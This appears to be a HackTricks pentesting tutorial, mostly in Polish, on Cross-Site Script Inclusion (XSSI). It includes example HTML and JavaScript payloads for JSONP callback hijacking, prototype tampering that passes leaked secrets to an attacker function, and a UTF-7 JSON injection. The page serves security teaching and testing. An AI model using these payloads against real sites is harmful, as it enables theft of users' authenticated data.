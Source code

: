 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** to luka, która wynika z natury tagu `script` w HTML. W przeciwieństwie do większości zasobów, które podlegają **Same-Origin Policy (SOP)**, skrypty mogą być dołączane z różnych domen. To zachowanie ma na celu ułatwienie korzystania z bibliotek i innych zasobów hostowanych na różnych serwerach, ale wprowadza również potencjalne ryzyko bezpieczeństwa.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Skrypty są zwolnione z **Same-Origin Policy**, co pozwala na ich dołączanie między domenami.
- **Data Exposure**: Atakujący może wykorzystać to zachowanie do odczytu danych załadowanych za pomocą tagu `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** jest szczególnie istotne dla dynamicznego JavaScriptu lub **JSON with Padding (JSONP)**. Technologie te często wykorzystują informacje "ambient-authority" (takie jak ciasteczka) do uwierzytelniania. Gdy żądanie skryptu jest wysyłane do innego hosta, te dane uwierzytelniające (np. ciasteczka) są automatycznie dołączane do żądania.
- **Authentication Token Leakage**: Jeśli atakujący może oszukać przeglądarkę użytkownika, aby zażądała skryptu z serwera, który kontroluje, może uzyskać dostęp do wrażliwych informacji zawartych w tych żądaniach.

### Types

1. **Static JavaScript** - To reprezentuje konwencjonalną formę XSSI.
2. **Static JavaScript with Authentication** - Ten typ jest odmienny, ponieważ wymaga uwierzytelnienia do uzyskania dostępu.
3. **Dynamic JavaScript** - Dotyczy JavaScriptu, który dynamicznie generuje treść.
4. **Non-JavaScript** - Odnosi się do luk, które nie dotyczą bezpośrednio JavaScriptu.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
W tym podejściu prywatne informacje są osadzone w ogólnodostępnym pliku JavaScript. Atakujący mogą identyfikować te pliki za pomocą metod takich jak odczyt plików, wyszukiwanie słów kluczowych lub wyrażeń regularnych. Po zlokalizowaniu skryptu zawierającego prywatne informacje można go dołączyć do złośliwej treści, co umożliwia nieautoryzowany dostęp do wrażliwych danych. Przykład techniki wykorzystania pokazano poniżej:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI i Authenticated-JavaScript-XSSI
Te typy ataków XSSI polegają na dynamicznym dodawaniu poufnych informacji do skryptu w odpowiedzi na żądanie użytkownika. Wykrywanie można przeprowadzić, wysyłając żądania z i bez ciasteczek oraz porównując odpowiedzi. Jeśli informacje się różnią, może to wskazywać na obecność poufnych danych. Proces ten można zautomatyzować za pomocą narzędzi takich jak [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) rozszerzenie Burp.

Jeśli poufne dane są przechowywane w zmiennej globalnej, można je wykorzystać za pomocą podobnych metod jak w Regular XSSI. Jednak jeśli poufne dane są zawarte w odpowiedzi JSONP, atakujący mogą przejąć funkcję zwrotną, aby uzyskać te informacje. Można to zrobić, manipulując obiektami globalnymi lub ustawiając funkcję do wykonania przez odpowiedź JSONP, jak pokazano poniżej:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Dla zmiennych, które nie znajdują się w globalnej przestrzeni nazw, *prototype tampering* może czasami być wykorzystane. Technika ta wykorzystuje projekt JavaScriptu, w którym interpretacja kodu polega na przeszukiwaniu łańcucha prototypów w celu zlokalizowania wywoływanej właściwości. Poprzez nadpisanie niektórych funkcji, takich jak `Array`'s `slice`, atakujący mogą uzyskać dostęp do zmiennych nieglobalnych i je ujawniać:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Dalsze szczegóły dotyczące wektorów ataku można znaleźć w pracy badacza bezpieczeństwa [Sebastiana Lekiesa](https://twitter.com/slekies), który prowadzi listę [wektorów](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Badania Takeshiego Terady wprowadzają inną formę XSSI, w której pliki Non-Script, takie jak CSV, są wyciekane między źródłami poprzez włączenie ich jako źródła w tagu `script`. Historyczne przypadki XSSI, takie jak atak Jeremiah Grossmana z 2006 roku na odczytanie pełnej książki adresowej Google oraz wyciek danych JSON Joe Walkera z 2007 roku, podkreślają powagę tych zagrożeń. Dodatkowo, Gareth Heyes opisuje wariant ataku z wykorzystaniem kodowania UTF-7 w JSON, aby uciec od formatu JSON i wykonać skrypty, skuteczny w niektórych przeglądarkach:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
